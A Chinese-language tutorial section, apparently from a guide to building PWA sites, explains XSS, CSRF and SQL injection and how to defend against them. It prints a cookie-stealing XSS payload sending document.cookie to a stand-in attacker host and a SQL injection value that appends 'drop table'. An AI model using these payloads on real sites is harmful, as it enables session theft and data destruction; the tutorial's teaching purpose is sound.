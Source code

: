## 常见的安全漏洞

在构建 PWA 站点的过程中，我们会面临很多的安全风险和漏洞，如 `XSS`，`CSRF`，`SQL 注入漏洞`，`ClickJacking`，`文件上传漏洞` 等等。在本小节中，我们列举几种客户端常见的安全漏洞，了解一下其原理和防范方法。

### 跨站脚本（XSS）

XSS (Cross Site Scripting) 即跨站脚本攻击。为了和层叠样式表（Cascading Style Sheets，CSS）区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 Cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。由于 XSS 漏洞易于出现且利用成本低，所以曾被 OWASP （一个关注 Web 应用程序安全的非营利性组织）列为当前的头号 Web 安全威胁。

我们举一个简单的例子说明它的原理，在 `a.com` 的搜索输入框中输入如下内容，并提交请求：

```html
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```

如果前端没有进行过滤，提交搜索框表单后，浏览器地址可能变为：

```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```

此时，script 标签中的代码被执行了！用户的 Cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 Cookie 信息来伪造用户身份，进行多种恶意非法操作。这个例子是 XSS 漏洞的一种类型：反射性 XSS。根据效果不不同，XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户点击一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击，HTML 页面中使用 document.write 和 innerHTML 等方法，容易造成 DOM 节点中存在该类型的 XSS 漏洞。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

- 输入过滤

永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符如 `<`，`>` 等进行过滤或者转义处理，然后再存储到数据库中。

- 输出编码

服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，将 `&`，`<`，`>`，`"`，`'` 等进行转义之后再输出到页面代码中。

- HttpOnly Cookie

这是预防 XSS 攻击窃取用户 Cookie 最有效的防御手段。Web 应用程序在设置 Cookie 时，将其属性设为 HttpOnly，客户端脚本将无法获取 Cookie 的值，这样能有效就避免该网页的 Cookie 被客户端恶意 JavaScript 窃取，保护用户 Cookie 信息安全。


### 跨站请求伪造（CSRF）

CSRF (Cross Site Request Forgery)，即跨站请求伪造，是一种极易被开发者忽略的安全漏洞。简单的理解是，攻击者盗用了用户的身份，以用户的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。

举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 Cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中携带了本地保存的 Cookie，A 网站收到 Cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。如下图所示：

![CSRF](./img/csrf.png)

#### 防范 CSRF

对于 CSRF 攻击，我们可以做如下防范：

- 验证码

这是一种比较简单有效的方法，它强制用户必须与应用进行交互才能完成最终的请求。特别是账户交易这种核心步骤，强制用户输入验证码，才能完成转账。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

- Referer Check

HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。

- Anti CSRF Token

目前比较完善的解决方案是加入 Anti CSRF Token，即发送请求时在 HTTP 请求中加入一个随机产生的 token，保证其不可预测性，让攻击者无法猜测重要请求所需的参数。实际应用中，我们可以把 token 隐藏在表单中，服务器验证提交的 token 是否与 session 或 Cookie 中的值一致，来判断该请求是否合法。如果不合法，直接拒绝该请求。

归根到底，防范这种类型的威胁，需要我们在构建 PWA 应用时始终保持安全意识，对于任何敏感操作都要进行身份的确认，涉及到用户敏感信息的 Cookie 数据，需要进行生命周期和读取权限的严格限制，有关更多 CSRF 的防范方法，可以查看 OWASP 总结的文档：https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet 。


### SQL 注入漏洞

注入攻击是 Web 安全领域的一种常见威胁，其本质就是把用户输入的数据当做代码来执行。前面提到的 XSS 其实也是一种针对 HTML 的注入，SQL 注入就是把非法的 SQL 命令通过 Web 表单等方式提交，在服务端后台执行，实现篡改数据库等恶意行为。

我们可以用一个简单的例子说明这种安全漏洞。现在有一条根据用户 uid 查询用户信息的 SQL 语句：

```sql
SELECT * FROM UserTable WHERE ID = uid;
```

其中，变量 uid 的值来自用户提交的请求，在正常情况下，用户输入 123，SQL 语句会执行：

```sql
SELECT * FROM UserTable WHERE ID = 123;
```

查询了用户表中 ID 为 123 的用户的所有字段信息。但假如前后端整个系统中，没有任何的安全处理，有攻击者恶意输入了如下语句：

```sql
123; drop table UserTable;
```

那么 SQL 语句在执行时的结果就是：

```sql
SELECT * FROM UserTable WHERE ID = 123; drop table UserTable;
```

危险出现了！原来正常的查询语句，因为接收了非法的用户输入，变成了极其危险的删除表的操作，数据库安全受到了极大的威胁。

从上面简单示意我们不难想象，SQL 注入的危害极大，不仅会引发数据库中用户隐私信息的泄露，还能篡改数据库的数据，甚至攻击远程数据库服务器，安装后门，造成不可计量的损失。那么我们该如何防御这种安全威胁呢？

在实际开发中，SQL 注入的防御并不是几句话能说清楚的事情，但我们可以从以下几个方面层层改进，让注入的风险降到最低。

1.永远不要信赖用户的输入。对输入的数据进行校验，过滤可能引发注入漏洞的字符，并检查输入的数据类型，如 id 必须为 Interger，输入邮箱严格按照邮箱的格式，日期也必须有特定格式等等，最大程度对抗恶意攻击。

2.使用预编译的参数化查询语句，不要拼接 SQL 语句。也可以使用安全的存储过程，先将 SQL 语句定义在数据库中。

3.严格管理数据库权限，不要使用管理员权限连接数据库。遵循最小权限原则，对不同应用的数据库连接权限进行严格控制。

4.重要信息加密存储。

SQL 注入的防范，需要记住永远将数据和代码分离的原则。只要我们设计并实施了合理的安全防御方案，这种危险完全可以避免。

上文只是简单列举了几种常见的攻击技术，实际情况中我们的应用受到的威胁远不止这些。总的来说，Web 安全是一个范围宽广又需要我们持续深入研究的重要话题，我们在构建 PWA 应用时，也要时刻从威胁防范的角度进行考虑，保障应用的稳定性和安全性。